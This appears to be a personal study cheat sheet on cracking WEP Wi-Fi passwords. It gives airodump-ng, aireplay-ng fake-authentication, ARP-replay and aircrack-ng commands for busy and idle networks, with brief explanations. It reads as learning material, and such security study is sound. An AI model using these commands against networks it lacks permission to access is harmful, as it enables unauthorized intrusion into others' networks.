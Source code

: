 ```yaml
---
title: WEP Cracking
date: 2024-01-28 14:15:56 -0600
---
```


### Busy Network

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename>
````

* Minimum ~50K Data packets are required in order to crack the password
* Aircrack-ng output will not always consist of the password in ASCII format. We can connect to the network using the numeric password after removing the colons

### Idle Network

An "Association Attack/ Fake Authentication" needs to be performed in order to connect to the network and inject packets into the network in order to increase the traffic on the network.

Injecting packets onto the network can be done using "ARP Request Replay Attack". There are other methods but this is the most reliable approach

**Working**  
Wait for an ARP packet to be generated  
Capture the packet and repeat it (Retransmit it)  
Each ARP packet will cause the Access Point to generate an new IV which can be collected to crack the password

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aireplay-ng --fakeauth 0 -a <router-bssid> -h <myadapter-bssid> <interface>
````

The `<myadapter-bssid>` can be found using `ifconfig` under "unspec" field the 1st 6 fields. When using in aireply-ng replace the dashes with colons

Association with network only means that we want to connect to the network (Similar to clicking the network name in the available network list). We are not authenticated so we cannot send any packets

````bash
aireplay-ng --arpreplay -b <router-bssid> -h <myadapter-bssid> <interface>
aircrack-ng output.cap
````
